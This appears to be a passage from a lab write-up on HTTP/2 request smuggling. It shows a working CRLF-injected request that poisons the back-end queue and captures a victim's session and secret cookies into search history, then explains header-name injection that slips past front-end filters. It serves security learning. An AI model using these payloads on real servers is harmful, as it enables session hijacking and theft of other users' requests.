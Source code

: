 Injected a `Transfer-Encoding` header using CRLF and poisoned the request que to exfiltrate other user' requests inside my research history:
```http
:scheme: https
:method: POST
:path: /
:authority: 0a7500e8034d7b3680984966002000c7.web-security-academy.net
foo: bar\n\rTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a7500e8034d7b3680984966002000c7.web-security-academy.net
Cookie: session=p9WPLt0MFzmYJVsXRUqDPUpHb4V3LiF0; _lab_analytics=VE803kxQQHMHBbYsL2ZBRfm6vGmn0qJwQKvLvJX7V1xLs73iGkaSsangy36V85SjtofPk0iyeUAEnbX4AKK2pot9C3EorBC01e8Safxe4Fo2H5c7ShLpCQBEikyxjRgYl3vjdHkFSTddh4Z6MWCoHoG73EktKbJlE57KwbJlGG6lD72wNdzyFnX2cJPOaa3ZgwUVOsKNvL6B5Q4XSWxOMwcVhTUOngDuJj0MShaUqNh7oy8X6voinUPmvDqePAZE
Content-Length: 700

search=x
```

Search history after user sent the request:
```html
...
<label>Recent searches:</label>
	<ul>
		<li><a href="/?search=xGET+%2f+HTTP%2f1.1%0d%0aHost%3a+0a7500e8034d7b3680984966002000c7.web-security-academy.net%0d%0acache-control%3a+max-age%3d0%0d%0asec-ch-ua%3a+%22Google+Chrome%22%3bv%3d%22113%22%2c+%22Chromium%22%3bv%3d%22113%22%2c+%22Not-A.Brand%22%3bv%3d%2224%22%0d%0asec-ch-ua-mobile%3a+%3f0%0d%0asec-ch-ua-platform%3a+%22Linux%22%0d%0aupgrade-insecure-requests%3a+1%0d%0auser-agent%3a+Mozilla%2f5.0+%28Victim%29+AppleWebKit%2f537.36+%28KHTML%2c+like+Gecko%29+Chrome%2f113.0.0.0+Safari%2f537.36%0d%0aaccept%3a+text%2fhtml%2capplication%2fxhtml%2bxml%2capplication%2fxml%3bq%3d0.9%2cimage%2favif%2cimage%2fwebp%2cimage%2fapng%2c*%2f*%3bq%3d0.8%2capplication%2fsigned-exchange%3bv%3db3%3bq%3d0.7%0d%0asec-fetch-site%3a+none%0d%0asec-fetch-mode%3a+navigate%0d%0asec-fetch-user%3a+%3f1%0d%0asec-fetch-dest%3a+document%0d%0aaccept-encoding%3a+gzip%2c+deflate%2c+br%0d%0aaccept-language%3a+en-US%2cen%3bq%3d0.9%0d%0acookie%3a+victim-fingerprint%3drT2aZA43c0VWrqLXwF10ASrLAcf7kntf%3b+secret%3dhVYxxLL33f4slsMf1evsoq9T4n4qIay1%3b+session%3dw2d3">xGET / HTTP/1.1
...
cookie: victim-fingerprint=rT2aZA43c0VWrqLXwF10ASrLAcf7kntf; secret=hVYxxLL33f4slsMf1evsoq9T4n4qIay1; session=w2d3erKlp3WIlT7Z6Mn4CVF8CLSkuBNE;
...
```

## Injecting via header names

By combining colons with `\r\n` characters, you may be able to use an HTTP/2 header's name field to sneak other headers past front-end filters. These will then be interpreted as separate headers on the back-end once the request is rewritten using HTTP/1 syntax:

```http
HTTP/2
foo: bar\r\nTransfer-Encoding: chunked\r\nX:	ignore

HTTP/1
Foo: bar\r\n
Transfer-Encoding: chunked\r\n
X: ignore\r\n
```

